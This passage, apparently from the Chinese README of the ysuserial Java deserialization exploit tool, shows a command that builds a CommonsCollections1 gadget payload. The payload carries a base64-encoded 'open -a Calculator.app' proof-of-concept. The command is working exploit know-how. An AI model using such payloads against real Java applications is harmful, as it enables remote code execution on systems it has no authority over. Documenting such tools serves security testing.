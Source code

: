 ![image-20220618204249501](images/image-20220618204249501.png)

**脚本引擎解析 JS 代码示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'SE-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：

![image-20220618204632444](images/image-20220618204632444.png)
